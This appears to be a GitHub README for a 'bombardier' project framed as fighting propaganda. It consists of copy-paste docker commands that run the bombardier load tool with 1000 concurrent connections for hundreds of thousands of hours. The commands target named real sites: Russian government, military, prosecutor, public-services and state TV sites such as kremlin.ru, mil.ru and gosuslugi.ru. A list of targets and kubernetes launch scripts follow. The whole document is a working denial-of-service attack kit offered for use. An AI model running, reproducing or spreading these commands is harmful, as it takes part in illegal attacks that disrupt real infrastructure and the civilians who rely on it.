 # bombardier
Fight agains propoganda

If you have kubertnetes cluster `./run_all_kuber.sh`
<br>
From local PC `./run_all_docker.sh`
<br>
or easiest way 

`docker run -ti --rm alpine/bombardier -c 1000 -d 60000h -l http://kremlin.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://mil.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l http://www.scrf.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://ach.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://epp.genproc.gov.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://www.gosuslugi.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://www.1tv.ru`
<br>
`docker run -ti --rm alpine/bombardier -c 1000 -d 600000h -l https://mid.ru`
<br>
sites
https://mil.ru
<br>
http://www.scrf.gov.ru
<br>
https://ach.gov.ru
<br>
https://epp.genproc.gov.ru
<br>
https://www.gosuslugi.ru
<br>
http://kremlin.ru
<br>
https://www.1tv.ru
